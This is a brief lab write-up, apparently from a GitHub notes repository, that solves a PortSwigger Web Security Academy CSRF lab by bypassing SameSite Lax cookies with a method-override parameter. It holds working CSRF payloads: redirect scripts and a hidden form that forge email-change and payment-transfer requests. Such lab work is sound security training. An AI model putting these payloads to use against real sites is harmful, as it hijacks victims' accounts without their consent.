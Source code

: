# SameSite Lax bypass via method override

## This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<script>
  document.location =
    "https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000";
</script>
```

```html
<form
  action="https://vulnerable-website.com/account/transfer-payment"
  method="POST"
>
  <input type="hidden" name="_method" value="GET" />
  <input type="hidden" name="recipient" value="hacker" />
  <input type="hidden" name="amount" value="1000000" />
</form>
```

---

### step 1

login wiener account chnage email and intercept request
and send to repeater change request method
it will change to post to get now add `?email=tes111t%40wiener.com&_method=POST
and in expolite section just post this script
`

```html
<script>
  document.location =
    "https://0ab700770395ae3a8489a41f00bb0011.web-security-academy.net/my-account/change-email?email=tes111t%40wiener.com&_method=POST";
</script>
```
